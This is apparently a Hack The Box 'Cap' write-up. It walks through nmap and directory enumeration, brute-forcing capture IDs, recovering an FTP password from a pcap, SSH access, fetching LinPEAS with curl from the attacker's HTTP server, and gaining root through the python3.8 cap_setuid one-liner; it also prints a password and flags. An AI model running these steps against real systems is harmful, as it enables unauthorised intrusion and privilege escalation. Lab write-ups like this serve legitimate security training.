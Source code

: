 ## ------------>> Cap <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.245 -p-
-----

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 06:07 UTC
    Stats: 0:15:00 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
    NSE Timing: About 99.51% done; ETC: 06:22 (0:00:00 remaining)
    Nmap scan report for 10.10.10.245
    Host is up (0.30s latency).
    Not shown: 65521 closed ports
    PORT      STATE    SERVICE          VERSION
    21/tcp    open     ftp              vsftpd 3.0.3
    22/tcp    open     ssh              OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp    open     http             gunicorn
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:59 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:52 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:53 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: HEAD, GET, OPTIONS
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    |_http-title: Security Dashboard
    10000/tcp filtered snet-sensor-mgmt
    14568/tcp filtered unknown
    23192/tcp filtered unknown
    27188/tcp filtered unknown
    30770/tcp filtered unknown
    31626/tcp filtered unknown
    36496/tcp filtered unknown
    38717/tcp filtered unknown
    42666/tcp filtered unknown
    58716/tcp filtered unknown
    65119/tcp filtered unknown

// Nvigatin to http://10.10.10.245/ , we presented with security deshboard that possibly monitor the network (kind of SIEM)

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/1.png)

// Lets search some directories with [FeroxBuster](https://github.com/epi052/feroxbuster) tool by epi052.

    $ ./feroxbuster -u http://10.10.10.245/ -w /usr/share/dirb/wordlists/big.txt -t 100
-------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.245/
     🚀  Threads               │ 100
     📖  Wordlist              │ /usr/share/dirb/wordlists/big.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    302        4l       24w      208c http://10.10.10.245/data
    302        4l       24w      220c http://10.10.10.245/capture
    200      355l     1055w    17450c http://10.10.10.245/ip
    200      547l     2981w    40784c http://10.10.10.245/netstat
    [####################] - 33s    20468/20468   0s      found:4       errors:0      
    [####################] - 33s    20468/20468   615/s   http://10.10.10.245/

// Navigating to http://10.10.10.245/data redirects us to http://10.10.10.245/data/1 

// And its the same direction when clicking the 'Security Snapshoot' tab.

// As written that options enables to capture packages on the network for 5sec.

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/2.png)

// Lets try to Brute Force the directories with BurpSuite Intruder

// First make wordlist with 'crunch' (filters(1 3)-from 1 digit to 3, containt only '0123456789')

    $ crunch 1 3 0123456789 > 100.txt
-----
![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/3.png)
![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/4.png)

// Focus on 200 status we get from the attack our result: 0, 1, 2, 4, 5, 11, 12, 14, 15

// Navigate to all camptures, the one waz exluded lead me to http://10.10.10.245/data/0 , and download the capture

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/5.png)

// Since the file is .pcap we can open it with WireShark , Filter (Ctrl+f , search: 'strigs' : "pass" )

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/6.png)

// We found FTP packet with Password !

    PASS Buck3tH4TF0RM3!

// Lets try connect to SSH since we got ssh service open the user 'nathan' from the website and the password

    nathan@cap:~$ id
    uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

// It worked !!

// And we got user flag!

nathan@cap:~$ cat user.txt
793451.........................


### ---------Privilleges Escalation----------

// First lets run [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)(By carlospolop) PrivEsc Tool for linux to enumerate our options.

// Upload LinPEAS via python http server

    $ python3 -m http.server 1445
    
// now Download the file on target with curl

    nathan@cap:~$ curl http://10.10.17.8:1445/linpeas.sh --output linpeas.sh

      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  445k  100  445k    0     0   186k      0  0:00:02  0:00:02 --:--:--  185k

    nathan@cap:~$ chmod +x linpeas.sh 
    nathan@cap:~$ ./linpeas.sh 

.....

    ╔══════════╣ Capabilities

    Files with capabilities (limited to 50):
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

.....

// We can see that we have python3.8 installed on system

// Check 

    nathan@cap:~$ which python3.8
    /usr/bin/python3.8

// Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) Python Capabilities

// From GTFBins: """ If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set,

    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

// it can be used as a backdoor to maintain privileged access by manipulating its own process UID """

    nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # whoami
    root

// And we got flag !!

    # cat /root/root.txt
    3f1c275015b75f596238c1085ccedd98



